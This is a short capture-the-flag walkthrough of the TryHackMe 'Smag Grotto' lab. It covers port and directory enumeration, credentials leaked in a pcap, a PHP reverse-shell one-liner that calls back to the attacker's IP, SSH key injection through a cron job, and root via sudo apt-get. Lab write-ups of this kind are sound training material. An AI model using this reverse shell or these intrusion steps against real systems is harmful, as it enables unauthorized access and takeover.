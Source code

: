 ```yaml
---
layout: post
title: "SMAG-GROTTO | THM "
date: 2021-11-20 00:46:00 -0000
categories: CTF THM
---
```


<h3>Executive Summary</h3> 

The server has hardcoded details present within a public facing email chain. Those credentials can be abused to get access to an admin portal and from there a reverse shell can be initiated. Once on the box itself, the ssh key infastructure is vulnerable to injection. An attacker can inject his own ssh key pair and move laterally from there. Once on as a regular user, credentials can be extracted from easily accessible log files. User can also escalate to root through sudo abuse of the apt-get program. 


<h3>Technical Details</h3>
<h2>Enumeration</h2>

First, lets see what is running on the box: 

<p>nmap 10.10.6.75</p>
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 01:12 EST
Nmap scan report for 10.10.6.75
Host is up (0.085s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Lets navigate to the webserver that is running. Not much is here so lets enumerate the webserver: 

gobuster dir -w /SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.6.75 -x txt,php -t64 

/mail                 (Status: 301) [Size: 307] [--> http://10.10.6.75/mail/] 
/index.php            (Status: 200) [Size: 402]

/mail is interesting. Upon investigation, there is a .pcap file discussed on this public facing webserver. There is a specific comment to use wget to download the file. If we download that file with wget and open with Wireshark, it is a short file with some TCP connections. Right clicking and selecting follow TCP stream will reveal some credentials being transmitted in clear text.

nice. There is one wrinkle, the POST request for this file is aimed at the hostname development.smag.thm. So, we need to tie that hostname to the IP address of the box. We can do that by editing our /etc/hosts file. 

10.10.6.75   development.smag.thm

Then we can navigate to the endpoint that was found in the PCAP file. Upon navigating there we find a login screen. 

<h2>Initial Foothold</h2>

When we login, there is a prompt that will let us send a command. Perfect for a reverse shell. A simple oneliner shell command from the Pentest Monkey will work. 

php -r '$sock=fsockopen("10.6.10.177",9999);exec("/bin/sh -i <&3 >&3 2>&3");'

<h2>Lateral Movement</h2>

id -> www and we can't read /home/jake/user.txt. After some basic linux enumeration, we find an interesting crontab. The public key is being regularly updated to the user's ssh directory. We can inject our own key pair after running ssh-keygen -o on our own box. Then wait. Then we can ssh with -i {path_to_key} jake@10.6.10.177

<h2>Priv Esc </h2>

Now we are in as Jake. Priv Esc isn't needed to read the root flag, you can just read the vim history. Run the classic sudo -l and we find a viable path to escalation through sudo apt-get. Follow the instructions on GTFO bins to acheive this. 



Sparse write up will be more detailed in future. 
